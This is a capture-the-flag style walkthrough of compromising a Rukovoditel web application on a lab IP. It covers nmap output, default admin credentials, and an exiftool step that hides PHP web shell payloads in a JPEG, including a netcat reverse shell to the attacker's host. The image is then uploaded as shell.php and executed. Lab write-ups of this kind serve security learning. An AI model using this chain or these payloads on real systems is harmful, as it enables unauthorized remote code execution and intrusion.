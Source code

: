 IP = 10.0.160.153

# Nmap Scan Discovery

```nmap
Connect Scan Timing: About 25.85% done; ETC: 23:53 (0:00:06 remaining)
Nmap scan report for 10.0.160.153
Host is up (0.19s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
80/tcp   open     http        nginx 1.18.0
| http-title: Rukovoditel
|_Requested resource was http://10.0.160.153/index.php?module=users/login
| http-robots.txt: 1 disallowed entry 
|_/
1095/tcp filtered nicelink
5922/tcp filtered unknown
5962/tcp filtered unknown
6788/tcp filtered smc-http
8181/tcp filtered intermapper
8300/tcp filtered tmi
8402/tcp filtered abarsd
9001/tcp filtered tor-orport
```

**Login Credentials**
username = admin
password = admin


This is how it goes, after logging in to the login page, you would be moved to the dashboard directory.
The application has the title *Rukovoditel*. Searching only on it brought up (Rukovoditel RCE exploit) in the search results.

The link to the exploit here;
https://www.exploit-db.com/exploits/51322

The vulnerable point was updating the admin profile picture. The exploit stated mainly to use a jpeg image.

![[Pasted image 20240923014553.png]]


Go and grab any jpeg image from the internet. (preferably name is index.jpeg )
Now, using exiftool type;
```bash
exiftool -overwrite_original -comment="<?php system('id'); ?>" index.jpeg
exiftool -overwrite_original -DocumentName="<?php system('nc <your_ip_address 9999 -e /bin/sh'); ?>" index.jpeg
```

Listen for a callback on the port you port (in my case 9999)
```bash
nc -nlvp 9999
```

Before you continue with anything, convert the jpeg image to base64. This link would help with that;
https://h3yy0.csb.app/

Now, intercept the request and paste the base64 of the image at the img parameter

![[Pasted image 20240923023246.png]]


Change the file name to shell.php and send.
![[Pasted image 20240923023456.png]]

now execute it from /uploads/users/tmp/shell.php


You should get your reverse shell :)

****Flags****
